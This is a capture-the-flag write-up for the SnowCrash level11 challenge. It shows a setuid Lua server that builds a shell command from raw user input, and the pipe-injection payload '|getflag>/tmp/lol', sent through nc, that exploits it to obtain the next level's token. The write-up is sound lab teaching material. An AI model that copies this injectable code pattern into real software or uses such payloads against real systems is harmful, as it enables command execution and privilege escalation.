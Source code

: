 # level11

- We login as user level11.
```
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```


- A lua script has been left to us, let's `cat level11.lua`:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```


- This script defines a TCP server listening on 127.0.0.1 through port 5151. It prompts clients attempting to connect, asking for a password, which is then passed to a hashing function. The hash result is compared, and the server responds accordingly.
```
level12@SnowCrash:~$ netstat -tunlp | grep 5151
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
```


- There is indeed a server listening on 127.0.0.1 through port 5151. What interests us here is the hashing function. This function executes `echo "..pass.." | sha1sum`, then puts the output of this command into the file descriptor assigned to `prog`, so:
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password:|getflag>/tmp/lol
Erf nope..
```

```
level11@SnowCrash:~$ cat /tmp/lol
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

```
level11@SnowCrash:~$ su level12
Password:fa6v5ateaw21peobuub8ipe6s
level12@SnowCrash:~$
```